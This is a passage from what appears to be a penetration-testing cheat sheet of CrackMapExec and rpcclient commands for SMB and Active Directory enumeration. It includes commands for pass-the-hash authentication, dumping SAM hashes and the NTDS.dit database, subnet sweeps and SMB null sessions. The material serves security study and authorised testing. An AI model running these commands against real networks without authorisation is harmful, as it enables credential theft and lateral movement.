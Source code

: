 #### crackmapexec

[CrackMapExec](crackmapexec.md):

```shell-session
# This is a useful tool that will also show the badpwdcount
crackmapexec smb $ip --users

# Also, if we have valid credentials, we could extract the users with the flag --users
sudo crackmapexec smb $ip -u $username -p $password --users
```

As a matter of fact, if we have a foothold on the domain, we could perform the following enumeration:

```powershell
# Check if we can access a machine
crackmapexec smb $ip --local-auth -u <username> -p <password> -d <DOMAIN>

# Using a hash instead of a password, to authenticate ourselves: Pass the hash attack (PtH)
crackmapexec smb $ip -u <username> -H <hash> -d <DOMAIN>

# Enumerate active sessions
crackmapexec smb $ip --local-auth -u <username> -p <password> -d <DOMAIN> --sessions


# Get sam: extract hashes from all users authenticated in the machine 
crackmapexec smb $ip -u <username> -p <password> -d <DOMAIN> --sam

# Get the ntds.dit, given that your user has permissions
crackmapexec smb $ip -u <username> -p <password> -d <DOMAIN> --ntds

# Check which machines we can access in a subnet
crackmapexec smb $ip/24 -u <username> -p <password> -d <DOMAIN>

# Enumerate logged on users in other hosts of the domain
crackmapexec smb $ip --local-auth -u <username> -p <password> -d <DOMAIN> --loggedon-users

# Enumerate users of the domain
sudo crackmapexec smb  $ip -u <username> -p <password> -d <DOMAIN> --users

crackmapexec smb $ip --local-auth -u <username> -p <password> -d <DOMAIN> --users

# Enumerate groups of the domain
crackmapexec smb $ip --local-auth -u <username> -p <password> -d <DOMAIN> --groups

```

### rpcclient

[rpcclient](rpcclient.md) and the  SMB NULL session technique:

```shell-session
# SMB NULL Session with rpcclient
rpcclient -U "" -N $ip

# Connect to a remote shared folder (same as smbclient in this regard)
rpcclient -U "" 10.129.14.128
rpcclient -U'%' 10.10.110.17

# Server information
srvinfo

# Enumerate all domains that are deployed in the network 
enumdomains

# Provides domain, server, and user information of deployed domains.
```